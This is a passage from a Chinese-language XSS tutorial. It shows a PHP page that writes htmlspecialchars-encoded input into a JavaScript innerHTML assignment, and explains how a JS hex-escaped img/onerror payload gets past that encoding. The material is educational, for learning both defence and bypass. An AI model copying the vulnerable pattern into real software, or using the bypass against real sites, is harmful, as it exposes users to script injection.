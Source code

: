 ```html
    <html>

	<?php
	if(!array_key_exists ("name",$_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
   		$isempty = true;
	} else {
	$value = $_GET['name'];
	$html = '<pre>';
	$html .= "Your Name is :
       <div id='a'></div>
       <script>
           document.getElementById('a').innerHTML= "."'".htmlspecialchars($value)."'".";
       </script>
	";
	$html .= '</pre>';
 
	}
	echo @$html;
	?>

	</html>
```

这里我们先分析value的环境，通过url参入参数，在script内，先进行js解码，然后写入html内进行html解码
于是考虑将payload进行js解码，此时便可以绕过html的实体编码

如果我们输入以往payload，会发现htmlspecialchars函数对value的特殊字符进行了实体编码

```html
    <html>

	<pre>Your Name is :
       <div id='a'></div>
       <script>
           document.getElementById('a').innerHTML= '&lt;img src=x onerror=alert(1)&gt;';
       </script>
 	</pre>

	</html>
```

于是我们构造payload，对url传入的参数先进行js编码


```javascript
\x3cimg src=x onerror=alert(1)\3e
```

从而绕过服务端对特殊字符的编码，在浏览器中先进行js解码，然后进行html解码，从而执行

![][21]

通过以上两个案例，我们对XSS的解码环境有了一个简单了解，以后在防御或者绕过XSS的时候，都可以做到在正确的环境内使用适当的编码

> 很多不了解html、js编码的童鞋挖掘xss漏洞时，都是一顿乱插，姿势对了，就能获得快感，姿势不对，就么反应


[1]: resources/xss1.png
[2]: resources/xss2.png
[3]: resources/xss3.png
[4]: resources/xss4.png
[5]: resources/xss5.png
[6]: resources/xss6.png
[7]: resources/xss7.png
[8]: resources/xss8.png
[9]: resources/xss9.png
[10]: resources/xss10.png
[11]: resources/xss11.png
[12]: resources/xss12.png
[13]: resources/xss13.png
[14]: resources/xss14.png
[15]: resources/xss15.png
[16]: resources/xss16.png
[17]: resources/xss17.png
[18]: resources/xss18.png
[19]: resources/xss19.png
[20]: resources/xss20.png
[21]: resources/xss21.png